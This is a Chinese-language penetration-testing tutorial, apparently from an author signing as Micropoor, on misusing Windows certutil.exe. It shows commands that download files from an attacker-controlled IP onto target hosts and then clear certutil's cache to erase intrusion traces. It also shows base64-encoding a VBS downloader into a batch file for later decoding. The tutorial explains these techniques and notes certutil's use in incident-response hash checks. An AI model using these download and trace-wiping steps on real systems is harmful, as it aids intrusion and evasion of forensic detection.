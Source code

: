 ### certutil微软官方是这样对它解释的：
> Certutil.exe是一个命令行程序，作为证书服务的一部分安装。您可以使用Certutil.exe转储和显示证书颁发机构（CA）配置信息，配置证书服务，备份和还原CA组件以及验证证书，密钥对和证书链。  

url:https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc732443(v=ws.11)

但是近些年好像被玩坏了。

**靶机：**windows 2003 windows 7

```bash
certutil.exe -urlcache -split -f http://192.168.1.115/robots.txt
```
![](media/d5ad3e478f8b4df59283786537e748f6.jpg)

默认下载为bin文件。但是不影响在命令行下使用。  
![](media/346d182aad2fafe6b894d0b08c994e0e.jpg)

certutil.exe 下载有个弊端，它的每一次下载都有留有缓存，而导致留下入侵痕迹，所以每次下载后，**需要马上执行如下**：

```bash
certutil.exe -urlcache -split -f http://192.168.1.115/robots.txt delete
```

![](media/1e7636c8225aaf3cd99d81bd44afeff9.jpg)

而在应急中certutil也是常用工具之一，来对比文件hash，来判断疑似文件。

**Windows 2003：**  
![](media/4dd859482e45ae5632c0302798c69329.jpg)

**Windows 7：**  
![](media/edec57e27ee820bc6c423481454ee6fc.jpg)

### certutil的其它高级应用：
```bash
C:\>certutil -encode c:\downfile.vbs downfile.bat
```
![](media/cb14f787f5f65099047d739544e41dbc.jpg)

**file:downfile.bat**  

![](media/b659cc22fd3ef3bc8931857f8a255c44.jpg)

**解密：**  
![](media/bdb9cc7f59e382ddb3e607e704bea481.jpg)

**file:downfile.txt**  
![](media/f0e6d3203cc514f0a7c611453246da1e.jpg)

>后者的话：powershell内存加载配合certutil解密是一件非常有趣的事情。会在未来的系列中讲述。

>   Micropoor
